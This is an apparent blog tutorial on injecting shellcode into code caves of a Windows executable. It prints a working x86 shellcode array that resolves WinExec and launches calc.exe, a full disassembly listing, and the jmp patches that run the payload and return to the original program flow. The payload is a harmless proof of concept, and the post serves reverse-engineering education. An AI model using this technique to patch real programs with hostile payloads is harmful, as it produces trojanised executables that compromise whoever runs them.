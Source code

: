 ```yaml
---
title: "Using code caves to inject custom shellcode"
classes: wide
header:
  teaser: /assets/images/injection/codecaves/codecaves.png
ribbon: DodgerBlue
description: "Learn how to use code caves to inject custom code into a .exe file"
categories:
  - Injection
toc: true
---
```


# Code caves

First of all, **what are code caves?**

Code caves are a chunk of null bytes (`0x00`) in a process's memory. Here's how they look like in `x64dbg`:

![Code cave chunk, x64dbg](/assets/images/injection/codecaves/codecaves.png)

As you may know, we can take advantage of these unused bytes to directly inject raw executable opcodes (shellcode) within the application.

We can use this simple **x86 shellcode** that opens a calculator (`calc.exe`):


```c

// open calc.exe (195 bytes x86 shellcode).
unsigned char shellcode[] = 
"\x89\xe5\x83\xec\x20\x31\xdb\x64\x8b\x5b\x30\x8b\x5b\x0c\x8b\x5b"
"\x1c\x8b\x1b\x8b\x1b\x8b\x43\x08\x89\x45\xfc\x8b\x58\x3c\x01\xc3"
"\x8b\x5b\x78\x01\xc3\x8b\x7b\x20\x01\xc7\x89\x7d\xf8\x8b\x4b\x24"
"\x01\xc1\x89\x4d\xf4\x8b\x53\x1c\x01\xc2\x89\x55\xf0\x8b\x53\x14"
"\x89\x55\xec\xeb\x32\x31\xc0\x8b\x55\xec\x8b\x7d\xf8\x8b\x75\x18"
"\x31\xc9\xfc\x8b\x3c\x87\x03\x7d\xfc\x66\x83\xc1\x08\xf3\xa6\x74"
"\x05\x40\x39\xd0\x72\xe4\x8b\x4d\xf4\x8b\x55\xf0\x66\x8b\x04\x41"
"\x8b\x04\x82\x03\x45\xfc\xc3\xba\x78\x78\x65\x63\xc1\xea\x08\x52"
"\x68\x57\x69\x6e\x45\x89\x65\x18\xe8\xb8\xff\xff\xff\x31\xc9\x51"
"\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe3\x41\x51\x53\xff"
"\xd0\x31\xc9\xb9\x01\x65\x73\x73\xc1\xe9\x08\x51\x68\x50\x72\x6f"
"\x63\x68\x45\x78\x69\x74\x89\x65\x18\xe8\x87\xff\xff\xff\x31\xd2"
"\x52\xff\xd0";
```

First, we'll go to the shellcode, and add the following instructions:

```asm
pushad
pushfd
```

The x86 instruction `pushad` pushes all of the general-purpose register onto the stack, and the `pushfd` instruction pushes all the `EFLAGS` register onto the stack.

We need these instructions because we'll need to restore the original register state and jump back to the original execution flow after executing our shellcode:
![Writing initial instructions](/assets/images/injection/codecaves/codecaves1.png)


We can then paste our shellcode after those 2 initial instructions:

![Writing our shellcode](/assets/images/injection/codecaves/pasting.png)

We now have this code instead of the initial `0x00` bytes:
```c
00401D5D | 60                       | pushad                                  | // <--- Pushes the contents of the general-purpose registers onto the stack
00401D5E | 9C                       | pushfd                                  | // <--- Pushes the entire contents of the EFLAGS register onto the stack
00401D5F | 89E5                     | mov ebp,esp                             | // We now paste our shellcode
00401D61 | 83EC 20                  | sub esp,20                              |
00401D64 | 31DB                     | xor ebx,ebx                             |
00401D66 | 64:8B5B 30               | mov ebx,dword ptr fs:[ebx+30]           |
00401D6A | 8B5B 0C                  | mov ebx,dword ptr ds:[ebx+C]            |
00401D6D | 8B5B 1C                  | mov ebx,dword ptr ds:[ebx+1C]           |
00401D70 | 8B1B                     | mov ebx,dword ptr ds:[ebx]              |
00401D72 | 8B1B                     | mov ebx,dword ptr ds:[ebx]              |
00401D74 | 8B43 08                  | mov eax,dword ptr ds:[ebx+8]            |
00401D77 | 8945 FC                  | mov dword ptr ss:[ebp-4],eax            |
00401D7A | 8B58 3C                  | mov ebx,dword ptr ds:[eax+3C]           |
00401D7D | 01C3                     | add ebx,eax                             |
00401D7F | 8B5B 78                  | mov ebx,dword ptr ds:[ebx+78]           |
00401D82 | 01C3                     | add ebx,eax                             |
00401D84 | 8B7B 20                  | mov edi,dword ptr ds:[ebx+20]           | edi:EntryPoint
00401D87 | 01C7                     | add edi,eax                             | edi:EntryPoint
00401D89 | 897D F8                  | mov dword ptr ss:[ebp-8],edi            | edi:EntryPoint
00401D8C | 8B4B 24                  | mov ecx,dword ptr ds:[ebx+24]           | ecx:EntryPoint
00401D8F | 01C1                     | add ecx,eax                             | ecx:EntryPoint
00401D91 | 894D F4                  | mov dword ptr ss:[ebp-C],ecx            | ecx:EntryPoint
00401D94 | 8B53 1C                  | mov edx,dword ptr ds:[ebx+1C]           | edx:EntryPoint
00401D97 | 01C2                     | add edx,eax                             | edx:EntryPoint
00401D99 | 8955 F0                  | mov dword ptr ss:[ebp-10],edx           | edx:EntryPoint
00401D9C | 8B53 14                  | mov edx,dword ptr ds:[ebx+14]           | edx:EntryPoint
00401D9F | 8955 EC                  | mov dword ptr ss:[ebp-14],edx           | edx:EntryPoint
00401DA2 | EB 32                    | jmp codecaving.401DD6                   |
00401DA4 | 31C0                     | xor eax,eax                             |
00401DA6 | 8B55 EC                  | mov edx,dword ptr ss:[ebp-14]           | edx:EntryPoint
00401DA9 | 8B7D F8                  | mov edi,dword ptr ss:[ebp-8]            | edi:EntryPoint
00401DAC | 8B75 18                  | mov esi,dword ptr ss:[ebp+18]           | esi:EntryPoint
00401DAF | 31C9                     | xor ecx,ecx                             | ecx:EntryPoint
00401DB1 | FC                       | cld                                     |
00401DB2 | 8B3C87                   | mov edi,dword ptr ds:[edi+eax*4]        | edi:EntryPoint
00401DB5 | 037D FC                  | add edi,dword ptr ss:[ebp-4]            | edi:EntryPoint
00401DB8 | 66:83C1 08               | add cx,8                                |
00401DBC | F3:A6                    | repe cmpsb                              |
00401DBE | 74 05                    | je codecaving.401DC5                    |
00401DC0 | 40                       | inc eax                                 |
00401DC1 | 39D0                     | cmp eax,edx                             | edx:EntryPoint
00401DC3 | 72 E4                    | jb codecaving.401DA9                    |
00401DC5 | 8B4D F4                  | mov ecx,dword ptr ss:[ebp-C]            | ecx:EntryPoint
00401DC8 | 8B55 F0                  | mov edx,dword ptr ss:[ebp-10]           | edx:EntryPoint
00401DCB | 66:8B0441                | mov ax,word ptr ds:[ecx+eax*2]          |
00401DCF | 8B0482                   | mov eax,dword ptr ds:[edx+eax*4]        |
00401DD2 | 0345 FC                  | add eax,dword ptr ss:[ebp-4]            |
00401DD5 | C3                       | ret                                     |
00401DD6 | BA 78786563              | mov edx,63657878                        | edx:EntryPoint
00401DDB | C1EA 08                  | shr edx,8                               | edx:EntryPoint
00401DDE | 52                       | push edx                                | edx:EntryPoint
00401DDF | 68 57696E45              | push 456E6957                           |
00401DE4 | 8965 18                  | mov dword ptr ss:[ebp+18],esp           |
00401DE7 | E8 B8FFFFFF              | call codecaving.401DA4                  |
00401DEC | 31C9                     | xor ecx,ecx                             | ecx:EntryPoint
00401DEE | 51                       | push ecx                                | ecx:EntryPoint
00401DEF | 68 2E657865              | push 6578652E                           |
00401DF4 | 68 63616C63              | push 636C6163                           |
00401DF9 | 89E3                     | mov ebx,esp                             |
00401DFB | 41                       | inc ecx                                 | ecx:EntryPoint
00401DFC | 51                       | push ecx                                | ecx:EntryPoint
00401DFD | 53                       | push ebx                                |
00401DFE | FFD0                     | call eax                                |
00401E00 | E8 A5020000              | call codecaving.4020AA                  | // end of shellcode
```

Now, after we pasted our shellcode, we need to modify our exe's code so that we `jmp` to the address of the start of the shellcode (`00401D5D`),

and then add a jmp instruction at the *end* of the shellcode to `jmp` back to the original execution flow (so that we don't break the program).

I chose this instruction to modify:
```c
jmp 0x00401D14
```
So first, let's modify that instruction instruction to `jmp` to the start of our shellcode (at address `00401D5D`) instead of `00401D14`

So instead of `jmp 0x00401D14`, it will be `jmp 00401D5D`:
![Jumping to our shellcode](/assets/images/injection/codecaves/oep.png)

And then at the end of our shellcode, we `jmp` to the actual instruction that the original `jmp` went to (`0x00401D14`):

![Jumping to our shellcode](/assets/images/injection/codecaves/end.png)

Now, after applying our patches in `x64dbg`, we can see that the program also launches `calc.exe` alongside its original payload:

![Successfully opening calc.exe](/assets/images/injection/codecaves/success.png)



